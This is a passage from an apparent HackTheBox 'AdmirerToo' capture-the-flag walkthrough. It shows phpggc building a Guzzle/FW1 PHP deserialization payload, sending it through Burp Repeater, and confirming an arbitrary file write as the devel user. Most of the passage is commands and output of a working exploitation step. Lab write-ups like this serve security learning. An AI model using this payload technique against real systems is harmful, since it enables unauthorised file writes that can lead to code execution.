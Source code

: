 Install if needed. Now create our test file and use phpggc to give us a serialized object:

```sh
┌──(root💀kali)-[~/htb/admirertoo]
└─# echo "this is a test" > pencer.txt

┌──(root💀kali)-[~/htb/admirertoo]
└─# phpggc -u --fast-destruct Guzzle/FW1 /dev/shm/pencer.txt /root/htb/admirertoo/pencer.txt 
a%3A2%3A%7Bi%3A7%3BO%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A41%3A%22%
00GuzzleHttp%5CCookieJar%00filename%22%3Bs%3A17%3A%22%2Fdev%2Fshm%2Fpencer.txt%2<SNIP>%3B%7D
```

## File Drop

Now paste that in to Burp and replace what is already there:

![admirertoo-repeater](/assets/images/2022-03-03-22-10-44.png)

Using Repeater to send the request we see a 200 OK response. Switch to our SSH session on the box and check the file we just dropped on there:

```text
jennifer@admirertoo:~$ ls -l /dev/shm/
4 -rw-r--r--  1 devel devel   58 Mar  3 21:46 pencer.txt

jennifer@admirertoo:~$ cat /dev/shm/pencer.txt 
[{"Expires":1,"Discard":false,"Value":"this is a test\n"}]
```

The file is owned by another user called devel. We can look for locations that user has access to:
